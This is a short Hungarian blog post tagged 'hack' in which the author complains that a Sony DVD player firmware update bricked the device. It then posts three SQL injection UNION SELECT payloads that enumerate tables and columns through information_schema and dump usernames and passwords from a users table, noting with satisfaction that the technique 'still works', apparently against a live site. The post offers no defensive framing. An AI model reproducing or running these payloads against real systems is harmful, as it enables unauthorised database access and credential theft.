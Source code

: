 ```yaml
---
title: "Firmware upgrade"
date: "2009-01-04"
tags: 
  - "hack"
---
```


Sony a seggem. Az asztali DVD lejátszóm ugyebár tud DivX-et lejátszani, de nem mennek vele a feliratok. Gondoltam jól van, nézzük van-e firmware frissítés a Sonynál. Hát [volt](http://support.sony-europe.com/HAV/downloads/downloads.aspx?m=RDR-HX722&f=fwr3&chck=&l=en) is, pont a feliratokhoz. Betűről betűre végigtoltam, és a végén most nem indul el az aparát. Mehetek szervízbe vele. Remek.

Ezen viszont kurvára felbasztam az agyamat... tehát.

_táblákok nevei:_

```
42 UNION SELECT 1,table_schema,3,4,5,6,7,table_name,9,10,11,12 FROM
          information_schema.TABLES
```

_oszlopok nevei:_

```
-- CONCAT('0x',HEX('Felhasznalok')) = 0x46656C6861737A6E616C6F6B

42 UNION SELECT 1,2,3,4,5,6,7,COLUMN_NAME,9,10,11,12 FROM
          information_schema.COLUMNS WHERE
                table_name = 0x46656C6861737A6E616C6F6B
```

_felhasználók nevei :))_

```
42 UNION SELECT 1,jelszo,3,4,5,6,7,loginNev,9,10,11,12 FROM
          Felhasznalok
```

Ez azért még megy. :)

